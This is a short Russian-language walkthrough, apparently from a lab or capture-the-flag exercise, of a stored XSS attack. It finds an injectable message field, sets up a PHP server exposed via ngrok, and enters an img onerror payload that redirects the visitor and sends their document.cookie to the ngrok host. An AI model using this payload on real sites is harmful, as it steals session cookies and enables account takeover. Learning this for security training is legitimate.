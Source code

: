 1.  Пытаемся найти где можно провести XSS атаку
![](9_1.png)
![](9_2.png)
2.  Создаём php сервер и пробрасываем локальный порт в сеть с помощью ngrok
    Вводим следующий код в окне сообщения 
    <img src=a onerror="window.location='http://2cbc07cb.ngrok.io/='+documen        t.cookie">
![](9_4.png)
